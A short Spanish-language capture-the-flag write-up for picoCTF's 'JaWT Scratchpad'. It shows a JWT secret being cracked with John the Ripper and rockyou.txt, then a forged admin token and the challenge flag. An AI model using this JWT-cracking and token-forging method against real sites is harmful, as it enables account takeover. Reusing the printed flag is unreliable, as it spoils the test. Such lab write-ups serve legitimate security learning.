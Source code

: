 # JaWT Scratchpad

## Objetivo
AUTHOR: JOHN HAMMOND

Internal server errors can be intentionally returned by this challenge. If you experience one, try clearing your cookies.

#### Description

Check the admin scratchpad! `https://jupiter.challenges.picoctf.org/problem/61864/` or http://jupiter.challenges.picoctf.org:61864

## Solucion
```bash
#Copiamos la cookie
┌──(kali㉿kali)-[~]
└─$ nano hash

┌──(kali㉿kali)-[~]
┌──(kali㉿kali)-[~]
└─$ cat hash                                                                       eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiY2FybG9zIn0.ibA8ZjnNXLYfuOIQWln6-CmmzUhw-bsu3BivkwnNYDk
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)
1g 0:00:00:04 DONE (2022-10-01 15:23) 0.2293g/s 1696Kp/s 1696Kc/s 1696KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed.

┌──(kali㉿kali)-[~]
└─$    

#Editamos la cookie en la pagina jwt.io
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s
#Cambiamos y guardamos la cookie en el navegador
picoCTF{jawt_was_jus_what_you_thought_f859ab2f}

```
## Notas adicionales

## Referencias
https://jwt.io/
